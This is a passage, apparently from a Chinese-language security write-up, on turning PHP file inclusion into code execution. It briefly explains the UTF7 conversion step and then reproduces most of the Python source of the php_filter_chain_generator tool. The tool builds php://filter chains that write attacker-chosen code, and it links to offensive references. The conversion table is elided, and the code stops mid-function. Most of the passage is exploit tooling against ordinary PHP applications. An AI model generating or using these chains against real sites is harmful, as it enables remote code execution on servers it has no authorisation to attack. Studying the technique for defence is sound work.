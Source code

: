 单独说一下，`convert.iconv.UTF8.UTF7`的作用是为了防止中途出现的base64补位的等号导致解释器失效或者报错，所以用它将等号转换为其他字符(base64合法字符)

### [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) @synacktiv

```python
#!/usr/bin/env python3
import argparse
import base64
import re

# - Useful infos -
# https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters
# https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
# https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

# No need to guess a valid filename anymore
file_to_use = "php://temp"

conversions = "dic.array"#太长了省略一下x

def generate_filter_chain(chain, debug_base64 = False):

    encoded_chain = chain
    # generate some garbage base64
    filters = "convert.iconv.UTF8.CSISO2022KR|"
    filters += "convert.base64-encode|"
    # make sure to get rid of any equal signs in both the string we just generated and the rest of the file
    filters += "convert.iconv.UTF8.UTF7|"


    for c in encoded_chain[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"
    if not debug_base64:
        # don't add the decode while debugging chains
        filters += "convert.base64-decode"

    final_payload = f"php://filter/{filters}/resource={file_to_use}"
    return final_payload

def main():

    # Parsing command line arguments
    parser = argparse.ArgumentParser(description="PHP filter chain generator.")

    parser.add_argument("--chain", help="Content you want to generate. (you will maybe need to pad with spaces for your payload to work)", required=False)
    parser.add_argument("--rawbase64", help="The base64 value you want to test, the chain will be printed as base64 by PHP, useful to debug.", required=False)
    args = parser.parse_args()
    if args.chain is not None:
        chain = args.chain.encode('utf-8')
        base64_value = base64.b64encode(chain).decode('utf-8').replace("=", "")
        chain = generate_filter_chain(base64_value)
        print("[+] The following gadget chain will generate the following code : {} (base64 value: {})".format(args.chain, base64_value))
        print(chain)
    if args.rawbase64 is not None:
```